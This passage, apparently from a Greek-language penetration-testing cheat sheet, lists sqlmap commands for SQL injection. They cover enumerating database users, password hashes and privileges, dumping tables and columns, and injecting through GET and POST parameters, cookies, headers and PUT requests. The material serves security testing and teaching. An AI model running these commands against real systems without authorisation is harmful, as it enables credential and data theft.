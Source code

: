#### Εσωτερικό
```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
#### Δεδομένα DB
```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```
## Injection place

### Από την καταγραφή του Burp/ZAP

Καταγράψτε το αίτημα και δημιουργήστε ένα req.txt αρχείο
```bash
sqlmap -r req.txt --current-user
```
### Εισαγωγή Αιτήματος GET
```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
### Εισαγωγή Αιτήματος POST
```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```
### Εισαγωγές σε Κεφαλίδες και άλλες Μεθόδους HTTP
```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
### Υποδείξτε τη συμβολοσειρά όταν η ένεση είναι επιτυχής
```bash
--string="string_showed_when_TRUE"
```
### Eval
